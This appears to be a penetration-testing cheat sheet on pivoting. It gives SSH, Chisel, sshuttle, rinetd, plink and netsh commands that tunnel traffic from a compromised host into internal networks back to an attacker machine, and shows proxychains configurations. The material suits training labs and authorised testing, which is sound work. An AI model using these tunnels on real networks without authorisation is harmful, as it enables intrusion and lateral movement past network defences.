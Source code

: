 ### Socks
SOCKS5 supports authentication, IPv6, and User Datagram Protocol (UDP), including DNS. Some SOCKS proxies will only support the SOCKS4 protocol. 
### Port Forwarding
###### RINETD
```
cat /etc/rinetd.conf
...
# bindadress    bindport  connectaddress  connectport
0.0.0.0 80 142.0.128.189  22
...
service rinetd start
```
###### SSH local port forwarding
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/d54b48e3-43ed-4fde-ad3f-2d28b538bde5)

forward all packets which go to remote compromised machine:445 to 192.168.1.110:445(PGDATABASE01)
```
remote compromised machine(confluence01): ssh -N -L 0.0.0.0(src CONFLUENCE01):445:192.168.1.110(dst PGDATABASE01):445 student@PGDATABASE01
```
###### ssh remote port forwarding
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/9355bdff-aa68-4989-aa53-0f3074a39739)

```
remote compromised machine(confluence01): ssh -N -R 127.0.0.1(confluence01):2345:10.4.50.215(PGDATABASE01):5432 kali@192.168.118.4(attacker machine)
```
###### SSH Dynamic Port Forwarding
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/f68cfac3-7e49-4f50-b104-ad7a672958e7)

Dynamic Port Forwarding:
initiating an SSH connection from a remote compromised machine to a further internal network(PGDATABASE01)

After bind proxychains to confluence01, through proxychains all traffic can be forwarded to all ports of PGDATABASE01, accessing 127.0.0.1 is like accessing remote machine(PGDATABASE01)
```
remote compromised machine: ssh -N -D 0.0.0.0:9999(remote compromised machine - confluence01) database_admin@10.4.50.215(PGDATABASE01)

kali@kali(attacker machine):~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 192.168.50.63 9999(remote compromised machine - confluence01)
```
###### SSH Remote Dynamic Port Forwarding 
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/118dc119-bbce-4559-8ec6-5b1c1b7e50f5)

Remote Dynamic Port Forwarding:
initiating an SSH connection from a remote compromised host(confluence to attacker machine)
```
remote compromised machine(confluence01): ssh -N -R 9998 kali@192.168.118.4(attacker machine)(listening state)

kali@kali(attacker machine):~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998(attacker machine)
```
###### sshuttle
```
1. confluence01: socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22(PGDATABASE01)
2. kali(attacker machine): sshuttle -r database_admin@192.168.50.63(PGDATABASE01):2222 10.4.50.0/24 172.16.50.0/24
```
###### Chisel
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/0c4201e9-44ae-4d2f-ad93-a5ddb4317f52)
```
Chisel Reverse dynamic Port Forwarding:
Confluence01: .\chisel.exe client 192.168.45.214:8080 R:socks
kali(attacker machine): chisel server --port 8080 --reverse/chisel server --port 8080 --socks5 --reverse

proxychains4:
add socks5 127.0.0.1 1080(chisel default port to listen)
disable proxy dns
sudo proxychains4 -f /etc/proxychains4.conf nmap -sS -Pn -p 80 172.16.243.10
```

```
<local-host>:<local-port>:<remote-host>:<remote-port>/<protocol>
which shares <remote-host>:<remote-port> from the server to the client as <local-host>:<local-port>

R:<local-interface>:<local-port>:<remote-host>:<remote-port>/<protocol>
  which does reverse port forwarding, sharing <remote-host>:<remote-port>
  from the client to the server's <local-interface>:<local-port>.

Chisel Reverse Port Forwarding
./chisel server --reverse --port 9002 --socks5.
chisel.exe client <kaliIP>:9002 R:8090:172.16.22.2:8000
Now we can access to http://172.16.22.2:8000/ via localhost:8090
```

Double Pivoting  
Kali (10.10.14.227) <<10.10.14.0/24>> DMZ01 (10.129.58.6 | 172.16.8.120) <<192.16.8.0/24>> DC01 (172.16.8.3 | 172.16.9.3) <<172.16.9.0/24>> MGMT01 (172.16.9.25)
```
kali: ./chisel_linux server --socks5 -p 9001 --reverse

/etc/proxychains:
socks5 127.0.0.1 9999
socks5 127.0.0.1 8888

DMZ01:
./chisel_linux client 10.10.14.227:9001 R:9999:socks
./chisel_linux server  -p 9002 --reverse --socks5

DC01:
chisel.exe client 172.16.8.120:9002 R:8888:socks
```

```
Chisel Reverse Multiple ports forwarding:
In local machine
./chisel server -p 9999 --reverse

In remote machine
./chisel client 10.0.0.1:9999 R:3000:127.0.0.1:3000 R:8000:127.0.0.1:8000
After that, we can access to http://localhost:3000 and http://localhost:8000 in local machine.
```

```
Chisel Local Port Forwarding:
In remote
chisel server -p 9999 --socks5

In local
chisel client 10.0.0.1:9999 8000:socks
```
### Windows Port forwarding
###### PLINK.exe
```
cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234(dst):127.0.0.1:3306(source) 10.11.0.4
```
###### Netsh
>for this to work, the Windows system must have the IP Helper service running and IPv6 support must be enabled for the interface we want to use
```
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=4455 listenaddress=10.11.0.22
```
###### ssh.exe
```
linux: 
1. sudo systemctl start ssh
windows: 
1. where ssh
2. ssh.exe -V (the version of OpenSSH bundled with Windows needs to be higher than 7.6, then we can use it for remote dynamic port forwarding)
3. ssh -N -R 9998 kali@192.168.118.4
linux: 
1. ss -ntplu(check socks5 9998 port state)
2. tail /etc/proxychains4.conf
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998
3. proxychains command
```
